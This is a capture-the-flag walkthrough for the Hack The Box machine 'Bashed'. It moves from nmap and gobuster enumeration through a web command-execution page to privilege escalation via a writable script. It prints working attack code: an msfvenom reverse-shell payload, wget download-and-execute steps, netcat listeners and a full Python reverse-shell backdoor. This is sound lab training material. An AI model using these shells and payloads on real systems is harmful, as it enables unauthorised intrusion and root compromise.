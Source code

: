 ## HTB: Bashed Walkthrough

### Enumeration
Start with a full Nmap scan to identify open ports:
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
The results show only port **80 (HTTP)** is open.

### [HTTP](HTTP) Enumeration
Visiting the website reveals a PHP-based web application. To discover hidden paths:
```bash
gobuster dir --url "http://$IP" -w /usr/share/dirb/wordlists/small.txt
```
The `/dev/` directory contains accessible files — one allows command execution via the web.

Using this functionality, grab the user flag:
```bash
cat /home/arrexel/user.txt
```

### Privilege Escalation
Run `sudo -l` to identify available sudo privileges:
```bash
sudo -l
```
It reveals that we can run scripts as **scriptmanager** without a password.

List all files owned by **scriptmanager**:
```bash
find / -user scriptmanager -type f 2>/dev/null
```
A Python script in `/scripts/` is modifiable. We'll exploit it.

### Reverse Shell via ELF Payload
Generate a reverse shell payload:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f elf > exploit.elf
```
Serve it via Python:
```bash
python3 -m http.server 80
```
Download and execute it from the target:
```bash
cd /tmp
wget http://$YOUR_IP/exploit.elf
chmod +x exploit.elf
./exploit.elf
```
Start a listener:
```bash
nc -lvnp 9001
```
Once inside, stabilize the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
```

### Alternative Python Backdoor
Create `test.py`:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
Upload and execute it using the writable script.

Start another listener:
```bash
nc -lvnp 9002
```
This grants a shell as **root**.

### Root
Retrieve the root flag:
```bash
cat /root/root.txt
```

---

🎉 Congrats, you rooted **HTB: Bashed**!

